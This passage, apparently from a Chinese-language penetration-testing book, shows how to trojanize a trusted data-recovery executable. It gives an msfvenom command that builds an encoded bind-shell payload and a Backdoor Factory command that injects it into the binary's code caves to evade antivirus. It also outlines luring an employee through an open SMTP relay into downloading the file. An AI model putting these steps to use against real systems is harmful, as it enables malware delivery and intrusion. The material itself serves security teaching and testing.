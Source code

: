 最理想的目标二进制文件是轻量级和可移植的——也就是说，它们依赖较少或根本没有依赖。一个需要完整安装的程序并不理想。我们假设客户的员工使用一个轻量级的免费软件来进行数据恢复。在我们的侦察阶段，我们建立了这个员工与公司另一位员工之间的信任关系。我们还发现了一个开放的 SMTP 中继，因此我们将尝试进行社会工程攻击，建议员工下载新版软件。我们会发送一个链接，实际上指向我们的 Kali 主机，拉取被植入木马的文件。

在开始之前，我们将确认目标可执行文件的当前状态，从 AV 社区的信任角度进行验证，确保它被普遍信任。我们正在使用的程序`DataRecovery.exe`，在社区中被认为是可信的。这有助于我们评估我们所实现的规避程度。去拿杯咖啡吧，我们继续。首先，我们将使用`msfvenom`创建我们自己的有效载荷：

# msfvenom --arch x86 --platform windows --payload windows/shell/bind_tcp EXITFUNC=thread LPORT=1066 --encoder x86/shikata_ga_nai --iterations 5 > trojan.bin

![图 12.11 – 使用 msfvenom 生成编码后的有效载荷](img/Figure_12.11_B17616.jpg)

图 12.11 – 使用 msfvenom 生成编码后的有效载荷

你还记得那些丰盛的日子吗？那时我们可以使用 Meterpreter 反向连接 payload。那时候我们富裕，179 千字节的文件都能让我们傲慢地笑一笑。如今，当我们处理可能微小的代码 cave 时，那些日子已经一去不复返了。在这种情况下，我使用了`windows/shell/bind_tcp`，因为它要小得多。这为我们提供了进行多次`x86/shikata_ga_nai`迭代的空间。即使进行了五次迭代，我们最终也只得到了可怜的 482 字节。因此，这个攻击将要求我们主动连接目标，而不是等待对方的反向连接。为了之后分析最终产品，我现在就用`xxd`检查 payload，获取一些原始字节：

![图 12.12 – 使用 xxd 抓取 payload 的原始字节](img/Figure_12.12_B17616.jpg)

图 12.12 – 使用 xxd 抓取 payload 的原始字节

接下来，我们将启动 BDF，并将我们编码后的二进制文件作为用户提供的 shellcode 传入：

# ./backdoor.py --file=DataRecovery.exe --shell=user_supplied_shellcode_threaded --user_shellcode=trojan.bin --output-file=datarec.exe --zero_cert

这是我们可以控制的部分。看一下这个提示，已标出合适的代码 cave：
